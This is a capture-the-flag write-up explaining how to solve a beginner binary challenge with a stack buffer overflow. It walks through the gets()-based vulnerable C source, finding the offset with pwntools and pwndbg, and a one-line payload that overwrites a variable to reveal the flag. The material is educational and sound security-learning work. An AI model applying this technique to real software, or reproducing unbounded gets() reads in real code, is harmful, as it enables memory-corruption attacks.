 ```yaml
---
title: Level 02 Solution
updated: 2018-08-04 21:00
---
```


## The task

If you take a look at the source file, the task is to somehow get the 'trash' variable to equal the value `0xdeadbeef`.
This is a little hard, since we aren't reading into the 'trash' variable. So how do we approach this problem. Think about it for a while, then we'll move further.
Here's the source code:

```c
int main() {
    volatile int trash;
    char buffer[64];
    trash = 0;
    gets(buffer);
    if (trash == 0xdeadbeef) {
        char ans[] = {
            <redacted>
        };
        puts(ans);
    }
}
```

Ofcourse some lines have been redacted from the source. They're really nothing, just some basic obfuscation in order to prevent people from directly getting the flag using 'strings' or some similar tool.
In order to tackle this problem we need to understand how programs work when executing. We just need the details of how memory is affected when a program is executed.
Let's disassemble the code as it will become easier to follow along with what I'm saying.

```shell
...
0x080488af <+10>:	push   ebp
0x080488b0 <+11>:	mov    ebp,esp
0x080488b2 <+13>:	push   ecx
0x080488b3 <+14>:	sub    esp,0x64
...
```

These lines are important to understand what actually takes place in memory when a program runs.
`push ebp` actually saves the stack frame of the calling function. So basically what we're doing when running the program is calling the `main()` method. Inorder to know where to continue executing, the `ebp` of the calling function is saved.
`mov ebp, esp` is used to set a new stack frame base for the callee function. This is better explained along with the next line which is `sub esp, 0x64` ignoring the previous line. This sequence is what we call a Standard Entry Sequence. It is followed everytime a function is called.
We do a `sub` in order to reserve space on the stack for the local variables of the function. Together these memory locations constitue of a 'stack frame' also known as a 'Call Stack'. If you can see from the diagram below, we notice that the local variables are stored in contiguous memory locations. What if we could exploit this feature?

![Call Stack Layout Example](https://commons.wikimedia.org/wiki/File:Call_stack_layout.svg#/media/File:Call_stack_layout.svg)

But how do we exploit this? We need a way to overwrite the data of those memory locations. Narrowing it down further, the only way we can attack this(not really) is by providing user input, which is done using the `gets()` method. This is currently the only so called 'attack surface' for now. Let's take a look at how this function works using the man pages.

```shell
$ man gets
```

The description looks promising 'Never use this function'. But why? Scrolling further down, we can see why we should not use this function, ever. Basically there's no limit to how much gets reads, even if the buffer we read into is of a fixed size. And in our case it's 64 bytes, so we can bascially read beyond 64 bytes of data. So if we have an input large enough, we should be able to overwrite the data of the 'trash' variable.
For the sake of completeness, let's assume we have no idea how far the 'trash' variable is located on the stack. We can find this offset by using a special kind of string. I use [pwntools] to genereate this string, though you can do this manually. Let's do it.

```python
>>> from pwn import *
>>> cyclic(128)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
```

Now let's open our binary in the debugger and set a breakpoint at the comparision with `0xdeadbeef`. Then run it and input our special string.

```shell
pwndbg> break *0x080488cf
Breakpoint 1 at 0x80488cf
pwndbg> r
Starting program: /home/dylan/Documents/ASM/challenges/binary/02/main32
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, 0x080488cf in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0x61616171 ('qaaa')
 EBX  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 ECX  0x80d9340 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0x80da87c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x80481a8 (_init) ◂— push   ebx
 ESI  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0xffffce98 ◂— 0x61616175 ('uaaa')
 ESP  0xffffce30 ◂— 0x0
 EIP  0x80488cf (main+42) ◂— cmp    eax, 0xdeadbeef
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x80488cf <main+42>     cmp    eax, 0xdeadbeef
   0x80488d4 <main+47>     jne    main+195 <0x8048968>
    ↓
   0x8048968 <main+195>    mov    eax, 0
   0x804896d <main+200>    mov    ecx, dword ptr [ebp - 4]
   0x8048970 <main+203>    leave
   0x8048971 <main+204>    lea    esp, [ecx - 4]
   0x8048974 <main+207>    ret

   0x8048975               nop
   0x8048977               nop
   0x8048979               nop
   0x804897b               nop
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffffce30 ◂— 0x0
01:0004│      0xffffce34 ◂— 0x40000
02:0008│      0xffffce38 ◂— 0x3
03:000c│      0xffffce3c ◂— 0x2
04:0010│      0xffffce40 ◂— 0x0
05:0014│      0xffffce44 ◂— 0x1000000
06:0018│      0xffffce48 ◂— 0x61616161 ('aaaa')
07:001c│      0xffffce4c ◂— 0x61616162 ('baaa')
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  80488cf main+42
Breakpoint *0x080488cf
```

If you're interested in knowing which debugger I use, it's pwndbg, you can get it [here](https://github.com/pwndbg/pwndbg#readme).
If we take a look at the `eax` value we see that it has changed from the original which was 0. So let's find the offset, again using pwn tools.

```python
>>> cyclic_find('qaaa')
64
```

We see that the 'trash' variable is located at an offset of 64 bytes, which is just after the size of our buffer array into which we read our input. So we essentially created what is called a 'stack overflow'.
Since the value can't fit in that fixed size buffer, it overflows into the next memory location, thus overwriting the data, which is what we wan't.
With the offset in hand it's only a matter of overwriting 'trash' with `0xdeadbeef` which is fairly simple. Let's get to it then...

```shell
$ python -c "print 'A'*64 + '\xef\xbe\xad\xde'" | ./main32
<flag_here>
```

And there you have it. I've only showed you how to exploit the 32-bit version of the binary. The 64-bit one can be exploited in the same way with only the offset changing. This is because address spaces are 64-bits. So the offset will be larger compared to a 32-bit binary.
Rest of the procedure will be the same. For more information on buffer overflow attacks please do check out the links below.

### Sites
[Phrack](http://phrack.org/issues/49/14.html)
[Functions and stack frames](https://en.m.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames)
[Call Stacks](https://en.wikipedia.org/wiki/Call_stack)

### Files
[Level 02](https://github.com/dsouzadyn/ctfing/tree/master/binary/02)
